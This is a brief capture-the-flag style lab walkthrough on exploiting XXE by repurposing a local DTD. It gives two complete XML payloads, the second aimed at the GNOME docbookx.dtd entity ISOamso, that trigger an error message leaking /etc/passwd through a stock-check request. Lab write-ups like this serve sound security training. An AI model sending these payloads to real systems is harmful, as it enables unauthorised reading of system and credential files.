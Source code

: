 # Exploiting XXE to retrieve data by repurposing a local DTD

## This lab has a "Check stock" feature that parses XML input but does not display the result.

## To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.

## You'll need to reference an existing DTD file on the server and redefine an entity from it.

## Hint

## Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`

---

### step 1

```bash
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "
<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

### step2

## Systems using the GNOME desktop environment often have a DTD at `/usr/share/yelp/dtd/docbookx.dtd` containing an entity called `ISOamso.`

step3

```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

send reuest
